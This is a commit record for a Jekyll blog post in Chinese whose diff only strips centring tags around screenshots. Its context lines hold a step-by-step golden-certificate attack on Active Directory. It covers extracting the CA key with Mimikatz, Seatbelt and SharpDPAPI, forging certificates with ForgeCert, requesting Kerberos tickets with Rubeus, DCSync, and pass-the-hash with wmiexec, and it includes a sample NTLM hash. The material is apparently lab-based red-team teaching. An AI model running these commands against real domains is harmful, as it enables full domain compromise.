

Before and after one commit to jiansiting/jiansiting.github.io, a Jekyll site: the page built from _posts/2021-11-23-利用黄金证书劫持域控.md, in a window 1280 px wide and 1400 px high, scrolled down 1351 px. Shown: the whole window, without its empty margins (233-1003 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2021-11-23-利用黄金证书劫持域控.md

```diff
--- a/_posts/2021-11-23-利用黄金证书劫持域控.md
+++ b/_posts/2021-11-23-利用黄金证书劫持域控.md
@@ -16,25 +16,25 @@
 certsrv – 备份 CA
 </center>
 在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。
-<center>
+
 ![](/img/利用黄金证书劫持域控/2.png)
-</center>
+
 <center>
 certsrv – 私钥和备份位置
 </center>
 CA 证书将导出为 p12 文件（个人信息交换）。
-<center>
+
 ![](/img/利用黄金证书劫持域控/3.png)
-</center>
+
 <center>
 certsrv – 提取的 CA
 </center>
 但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。
 
     Seatbelt.exe Certificates
-<center>
+
 ![](/img/利用黄金证书劫持域控/4.png)
-</center>
+
 <center>
 Seatbelt – 本地机器
 </center>
@@ -44,39 +44,39 @@
     crypto::capi
     crypto::cng
     crypto::certificates /systemstore:local_machine /store:my /export
-<center>
+
 ![](/img/利用黄金证书劫持域控/5.png)
-</center>
+
 <center>
 Mimikatz – 导出证书
 </center>
 
-<center>
+
 ![](/img/利用黄金证书劫持域控/6.png)
-</center>
+
 <center>
 Mimikatz - CA 证书
 </center>
 
 证书将以 .DER 和 .PFX 格式提取到磁盘上。
-<center>
+
 ![](/img/利用黄金证书劫持域控/7.png)
-</center>
+
 
 SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。
 
     SharpDPAPI.exe certificates /machine
-<center>
+
 ![](/img/利用黄金证书劫持域控/8.png)
-</center>
+
 <center>
 SharpDPAPI – 机器证书
 </center>
 
 私钥和证书都将显示在控制台中。
-<center>
+
 ![](/img/利用黄金证书劫持域控/9.png)
-</center>
+
 <center>
 SharpDPAPI - CA 证书
 </center>
@@ -84,9 +84,9 @@
 提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。
 
     openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
-<center>
+
 ![](/img/利用黄金证书劫持域控/10.png)
-</center>
+
 <center>
 将证书转换为 PFX
 </center>
@@ -95,9 +95,9 @@
 Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。
 
     crypto::scauth /caname:ca /upn:pentestlab@purple.lab
-<center>
+
 ![](/img/利用黄金证书劫持域控/11.png)
-</center>
+
 <center>
 伪造CA证书——Mimikatz
 </center>
@@ -105,9 +105,9 @@
 或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。
 
     ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123
-<center>
+
 ![](/img/利用黄金证书劫持域控/12.png)
-</center>
+
 <center>
 伪造CA证书-域用户
 </center>
@@ -115,9 +115,9 @@
 应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。
 
     ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123
-<center>
+
 ![](/img/利用黄金证书劫持域控/13.png)
-</center>
+
 <center>
 伪造证书-机台账
 </center>
@@ -126,16 +126,16 @@
 可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。
 
     Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123
-<center>
+
 ![](/img/利用黄金证书劫持域控/14.png)
-</center>
+
 <center>
 Rubeus – Kerberos 票证
 </center>
 
-<center>
+
 ![](/img/利用黄金证书劫持域控/15.png)
-</center>
+
 <center>
 Rubeus - 域用户票
 </center>
@@ -144,16 +144,16 @@
 可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。
 
     Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123
-<center>
+
 ![](/img/利用黄金证书劫持域控/16.png)
-</center>
+
 <center>
 Rubeus - 请求 DC 机器帐户的票证
 </center>
 
-<center>
+
 ![](/img/利用黄金证书劫持域控/17.png)
-</center>
+
 <center>
 DC 机器帐户 Base64 票证
 </center>
@@ -161,9 +161,9 @@
 base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。
 
     echo "<base64>" | base64 -d > dc$.kirbi
-<center>
+
 ![](/img/利用黄金证书劫持域控/18.png)
-</center>
+
 <center>
 将 Base64 票证转换为 Kirby
 </center>
@@ -171,9 +171,9 @@
 票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。
 
     Rubeus.exe ptt /ticket:dc$.kirbi
-<center>
+
 ![](/img/利用黄金证书劫持域控/19.png)
-</center>
+
 <center>
 Rubus – 通过票证
 </center>
@@ -181,9 +181,9 @@
 由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。
 
     lsadump::dcsync /user:Administrator
-<center>
+
 ![](/img/利用黄金证书劫持域控/20.png)
-</center>
+
 <center>
 Mimikatz – DCSync
 </center>
@@ -191,9 +191,9 @@
 散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。
 
     python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1
-<center>
+
 ![](/img/利用黄金证书劫持域控/21.png)
-</center>
+
 <center>
 WMI 连接 - 域控制器
 </center>
```
